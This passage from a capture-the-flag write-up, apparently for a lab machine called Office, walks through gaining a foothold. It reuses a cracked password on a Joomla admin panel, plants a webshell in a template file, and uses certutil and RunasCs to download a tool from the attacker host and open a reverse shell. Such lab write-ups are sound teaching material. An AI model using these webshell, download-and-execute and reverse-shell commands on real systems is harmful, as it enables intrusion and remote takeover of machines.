 We found the credentials to be `tstark:playboy69`. 

# Lateral Movement
## Access as TStark
We found that this user is also the administrator user for the Joomla backend so we can use the found password to login with the following credentials: `Administrator:playboy69`. Next we can go to `System > Site Templates` and select the available template. We can then add a webshell on one of the available pages (e.g. `error.php`) to get remote code execution.

![Joomla RCE](../assets/images/writeups/office/joomla-rce.png)

We test if we can get remote code execution with the following command:
```console
$ curl http://10.10.11.3/templates/cassiopeia/error.php?bashee=whoami
office\web_account
```

Looks like we have command execution, so lets try to get a reverse shell. We can try to get a shell as `tstark` directly by using [RunasCs.exe](https://github.com/antonioCoco/RunasCs) since we know the password of this user on the machine. We will start a Python webserver on our host and run the following commands to download our executable and get a shell.

```bash
certutil -f -urlcache http%3A%2F%2F10.10.14.7%3A8888%2FRunasCs.exe RunasCs.exe
.%5CRunasCs.exe tstark playboy69 cmd.exe -r 10.10.14.7%3A4444
```

We start a `pwncat` listener to catch our shell. Afterwards we get a shell as `tstark` and can get the user flag.
```console
$ pwncat-cs -m windows -lp 4444
(remote) tstark@DC:C:\Windows\system32$ cd C:\Users\tstark\Desktop
(remote) tstark@DC:C:\Users\tstark\Desktop$ dir
Directory: C:\Users\tstark\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         7/16/2024  12:58 PM             34 user.txt
```
